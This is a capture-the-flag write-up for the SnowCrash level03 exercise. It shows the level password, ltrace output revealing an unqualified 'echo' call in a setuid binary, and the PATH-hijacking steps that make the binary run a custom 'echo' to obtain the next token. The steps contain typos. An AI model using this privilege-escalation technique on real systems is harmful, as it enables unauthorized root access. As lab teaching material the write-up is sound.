 -----
# loging into level03 first 

	level03@SnowCrash:~$ su level03
	Password: kooda2puivaav1idi4f57q8iq

# what we find 

this time there is a executable when we execute it a message appear 
    level03@SnowCrash:~$ ./level03
    Exploit me
# using ltrace 

bu using ltrace debuuger which let us to exploit and intercepts an records the dynamic library calls which are called by the executed process and signals which are received by that process 

    ```
    evel03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                               = 2003
geteuid()                                                               = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                     = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                     = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                  = 0
+++ exited (status 0) +++
```

# what is PATH variable 

PATH is an environmental in linux and unix 

operating system which specifies all bin and sbin directories where executable programs are stored

we can override the PATH variable to point to a directory with your custom version of echo and since echo is executed using env, it isn't treated as a built-in.

If you notice ‘.’ in environment PATH variable it means that the logged user can execute binaries/scripts from the current directory and it can be an excellent technique for an attacker to escalate root privilege. This is due to lack of attention while writing program thus admin does not specify the full path to the program.

/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

	vim echo 
	chmod 777 eho 
	echo $PATH 
	pwd
	export PATH=//home/user/level03:$PATH

    Finally, run the executable to get the token for level04:


        level03@SnowCrash:~$ ./level03
        Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXXXX